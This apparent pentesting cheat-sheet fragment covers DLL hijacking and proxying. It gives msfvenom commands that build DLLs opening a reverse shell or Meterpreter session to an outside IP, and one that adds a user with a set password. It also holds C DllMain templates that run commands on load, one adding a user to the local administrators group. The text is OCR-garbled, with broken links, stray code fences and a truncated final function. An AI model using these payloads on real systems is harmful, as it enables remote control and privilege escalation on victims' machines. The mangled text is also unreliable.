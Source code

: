 ```

Basically a **Dll proxy** is a Dll capable of **execute your malicious code when loaded** but also to **expose** and **work** as **exected** by **relaying all the calls to the real library**.

With the tool [[https://github.com/redteamsocietegenerale/DLLirant) or [**Spartacus**](https://github.com/Accenture/Spartacus|**DLLirant**]] you can actually **indicate an executable and select the library** you want to proxify and **generate a proxified dll** or **indicate the Dll** and **generate a proxified dll**.

### **Meterpreter**

**Get rev shell (x64):**

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
```
**Get a meterpreter (x86):**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
```
**Create a user (x86 I didn't see a x64 version):**

```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```
```
### Your own

Note that in several cases the Dll that you compile must **export several functions** that are going to be loaded by the victim process, if these functions doesn't exist the **binary won't be able to load** them and the **exploit will fail**.

```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            system("whoami > C:\\users\\username\\whoami.txt");
            WinExec("calc.exe", 0); //This doesn't accept redirections like system
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```
```
```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    if (dwReason == DLL_PROCESS_ATTACH){
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
```